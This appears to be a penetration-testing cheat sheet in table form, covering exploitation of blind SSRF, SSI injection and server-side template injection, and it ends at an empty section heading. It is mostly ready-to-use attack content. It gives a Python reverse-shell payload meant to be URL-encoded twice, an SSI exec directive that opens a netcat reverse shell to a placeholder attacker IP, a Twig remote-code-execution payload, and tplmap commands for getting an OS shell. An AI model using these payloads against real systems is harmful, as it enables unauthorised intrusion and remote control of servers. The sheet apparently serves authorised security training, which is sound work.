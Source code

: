 # Blind SSRF Exploitation Example

## Command	Description
| Command                                                                                        | Description                                                    |
|-----------------------------------------------------------------------------------------------|----------------------------------------------------------------|
| `nc -lvnp 9090`                                                                                | Starting a netcat listener                                     |
| `echo """<B64 encoded response>""" \| base64 -d`                                               | Decoding the base64 encoded response                           |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoded twice)              |

# SSI Injection Exploitation Example

## SSI Directive Payload	Description
| SSI Directive Payload                                                       | Description                                             |
|------------------------------------------------------------------------------|---------------------------------------------------------|
| `<!--#echo var="DATE_LOCAL" -->`                                             | Date                                                    |
| `<!--#printenv -->`                                                          | All variables                                           |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell                                        |

# SSTI Exploitation Example 1

## Command	Description
| Command                                                                                        | Description                                                    |
|-----------------------------------------------------------------------------------------------|----------------------------------------------------------------|
| `git clone https://github.com/epinna/tplmap.git`                                               | Cloning the tplmap repository                                  |
| `cd tplmap`                                                                                    | Navigating to the new directory                                |
| `pip install virtualenv`                                                                       | Installing the virtual environment with pip                   |
| `virtualenv -p python2 venv`                                                                   | Creating a virtual environment named venv with python2         |
| `source venv/bin/activate`                                                                     | Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter |
| `pip install -r requirements.txt`                                                              | Installing dependencies                                       |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`                                      | Running tplmap against the target                             |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`                            | Running tplmap with the os-shell option                       |
| `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}` | Twig RCE payload |

# SSTI Exploitation Example 2
